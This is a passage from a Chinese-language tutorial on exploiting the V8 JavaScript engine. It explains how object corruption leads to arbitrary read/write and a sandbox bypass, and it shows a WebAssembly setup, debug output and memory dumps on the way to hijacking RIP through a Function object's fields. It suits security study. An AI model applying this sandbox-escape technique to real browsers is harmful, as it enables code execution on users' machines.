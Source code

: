  **对象损坏 - > 相对任意读/写 -> 绕过 v8 沙箱 -> 代码执行**

这里的关键是绕过沙箱进行相对任意读/写， Javascript 中的 Function
对象提供了这种功能，函数本身就是一个对象，同时也支持代码执行，因此，它是从对象到执行的关键桥梁。

下面是Function对象的数据结构：

  *   *   *   *   * 

    
    
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);var wasmModule = new WebAssembly.Module(wasmCode);var wasmInstance = new WebAssembly.Instance(wasmModule);var f = wasmInstance.exports.main;%DebugPrint(f);

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    DebugPrint: 0x1f290011c161: [Function] in OldSpace - map: 0x1f29001138b9 <Map[28](HOLEY_ELEMENTS)> [FastProperties] - prototype: 0x1f2900104275 <JSFunction (sfi = 0x1f29000c8ef9)> - elements: 0x1f2900000219 <FixedArray[0]> [HOLEY_ELEMENTS] - function prototype: <no-prototype-slot> - shared_info: 0x1f290011c135 <SharedFunctionInfo js-to-wasm::i> - name: 0x1f2900002785 <String[1]: #0> - builtin: JSToWasmWrapper - formal_parameter_count: 0 - kind: NormalFunction - context: 0x1f2900103c0d <NativeContext[281]> - code: 0x1f2900303979 <Code BUILTIN JSToWasmWrapper> - Wasm instance: 0x1f290011bf69 <Instance map = 0x1f290011a605>

  
下面是内存中的十六进制数据：

  *   *   *   *   *   *   *   * 

    
    
    0x1f290011c100        00000000 00040E40 00001E95 0011C0F10x1f290011c110        00303979 00000000 0011BF69 000000000x1f290011c120        000007D0 002B1A65 00000000 000000020x1f290011c130        00040E60 00000D8D 0011C109 000027850x1f290011c140        0000026D 0011BED1 00010000 000000000x1f290011c150        00000000 FFFFFFFF 0000031B 000000000x1f290011c160        001138B9 00000219 00000219 000574000x1f290011c170        0011C135 00103C0D 000C22F9 00000061

#

#  **  
0x02-RIP劫持：**

 ****

 **0x1f290011c160** 是对象的起始地址，而 **0x1f290011C135**
是shared_info对象，我们可以检查该对象的详细信息：

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    0x1f290011c135: [SharedFunctionInfo] in OldSpace - map: 0x1f2900000d8d <Map[44](SHARED_FUNCTION_INFO_TYPE)> - name: 0x1f2900002785 <String[1]: #0> - kind: NormalFunction - syntax kind: AnonymousExpression - function_map_index: 204 - formal_parameter_count: 0 - expected_nof_properties: 0 - language_mode: sloppy - function_data: 0x1f290011c109 <Other heap object (WASM_EXPORTED_FUNCTION_DATA_TYPE)> - code (from function_data): 0x1f2900303979 <Code BUILTIN JSToWasmWrapper>……
